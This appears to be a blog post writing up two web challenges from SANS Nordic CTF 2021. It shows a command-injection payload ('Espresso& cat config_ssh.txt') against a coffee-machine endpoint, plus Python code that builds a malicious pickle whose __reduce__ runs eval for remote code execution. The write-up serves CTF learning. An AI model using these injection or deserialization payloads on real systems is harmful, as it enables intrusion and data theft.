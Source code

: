 ```yaml
---
layout: post
title:  "Writeup of a few of the challenges from SANS Nordic CTF 2021"
date:   2021-04-21 12:00:00 +0100
categories: python web-magic ctf
---
```


SANS arranged the Nordic CTF 2021 and did a great job of providing different challenges in categories like web and crypto.

I will describe short how some of the web was solved.

First the tools you need:

* A browser with decent development tools. Personally I prefer Chrome (or Chromium) but Firefox is also great.
* A command like like on Linux or WSL on Windows
* Possibility to do some scripting in Python

# The IoT coffee machine

The coffee machine just keeps making coffee but will only make some variants of coffee.

Inspecting the network traffic reveals that it makes an XHR request with the following payload:

{% highlight python %}
{"coffee": "Espresso"}
{% endhighlight %}

First was tried to change the payload to a list.

Payload:
{% highlight python %}
{"coffee": ["Espresso"]}
{% endhighlight %}

Result:
{% highlight python %}
{"errorMessage": "can only concatenate str (not \"list\") to str", "errorType": "TypeError", "stackTrace": ["  File \"/var/task/lambda_function.py\", line 23, in lambda_handler\n    'body': command(event['coffee'])\n", "  File \"/var/task/lambda_function.py\", line 13, in command\n  combined = filtering(params)\n", "  File \"/var/task/lambda_function.py\", line 10, in filtering\n    return \"./coffeeController --type=\" + params\n"]}
{% endhighlight %}

Notice the last part. That looks like a command that can be run.

TIP: You can use the developer tool to get the request as a curl command to manipulate as you like.

Trying to get a command to run using the following payload:

{% highlight python %}
{"coffee":"Espresso& ls"}
{% endhighlight %}

The system would not accept ; as delimeter between command.

That payload resulted in this:

{% highlight python %}
{"statusCode": 200, "body": "Making Espresso...\ncoffeeController\nconfig_ssh.txt\n\n"}
{% endhighlight %}

From here is there only one payload left:

{% highlight python %}
{"coffee":"Espresso& cat config_ssh.txt"}
{% endhighlight %}

With the result:

{% highlight python %}
{"statusCode": 200, "body": "Making Espresso...\nFlag: IOTXXXXXXXnt\n\n"}
{% endhighlight %}

## The 1000 pts web

The Bonus x web challenge was a fun little challenge where you entered your named, reloaded the page and it shows your name.

Inspecting the traffic resulted in identifing that the client sent a python pickled dict to the server with the username in.

The following python code was used to generate some eval code that the server would evaluate and return the flag as name.

{% highlight python %}
import pickle
import base64

flag = 'FALSE'

class RCE:
    def __reduce__(self):
        return (eval,('{"name":flag}',))

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
{% endhighlight %}

This results in the following payload for the server:

{% highlight python %}
{"userdata":"gANjYnVpbHRpbnMKZXZhbApxAFgNAAAAeyJuYW1lIjpmbGFnfXEBhXECUnEDLg=="}
{% endhighlight %}

Sending this data will result in the eval being run and the following result from the server:

{% highlight python %}
{"statusCode": 200, "body": "Hello, Flag: suPERXXXXXXXX02891", "headers": {"Access-Control-Allow-Origin": "*"}}
{% endhighlight %}

